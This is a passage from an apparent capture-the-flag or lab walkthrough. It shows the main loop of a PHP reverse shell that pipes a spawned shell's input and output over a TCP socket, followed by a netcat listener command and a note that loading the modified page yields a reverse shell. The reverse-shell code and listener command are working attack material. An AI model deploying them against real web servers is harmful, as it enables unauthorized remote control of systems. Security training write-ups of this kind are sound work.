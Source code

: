 ```php
			printit("ERROR: Shell process terminated");
			break;
		}
		// Wait until a command is end down $sock, or some
		// command output is available on STDOUT or STDERR
		$read_a = array($sock, $pipes[1], $pipes[2]);
		$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
		// If we can read from the TCP socket, send
		// data to process's STDIN
		if (in_array($sock, $read_a)) {
			if ($debug) printit("SOCK READ");
			$input = fread($sock, $chunk_size);
			if ($debug) printit("SOCK: $input");
			fwrite($pipes[0], $input);
		}
		// If we can read from the process's STDOUT
		// send data down tcp connection
		if (in_array($pipes[1], $read_a)) {
			if ($debug) printit("STDOUT READ");
			$input = fread($pipes[1], $chunk_size);
			if ($debug) printit("STDOUT: $input");
			fwrite($sock, $input);
		}
		// If we can read from the process's STDERR
		// send data down tcp connection
		if (in_array($pipes[2], $read_a)) {
			if ($debug) printit("STDERR READ");
			$input = fread($pipes[2], $chunk_size);
			if ($debug) printit("STDERR: $input");
			fwrite($sock, $input);
		}
	}
	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);
	// Like print, but does nothing if we've daemonised ourself
	// (I can't figure out how to redirect STDOUT like a proper daemon)
	function printit ($string) {
		if (!$daemon) {
			print "$string\n";
		}
	}
	?> 
```
We start a netcat listner on our ip and PORT 5555. Then we go and invoke the modified page.

```bash
$ nc -lnvvp 5555
listening on [any] 5555 ...
```
We get a blank page and also reverse shell on our listener. The page is still loading as it is waiting for our shell process to die.

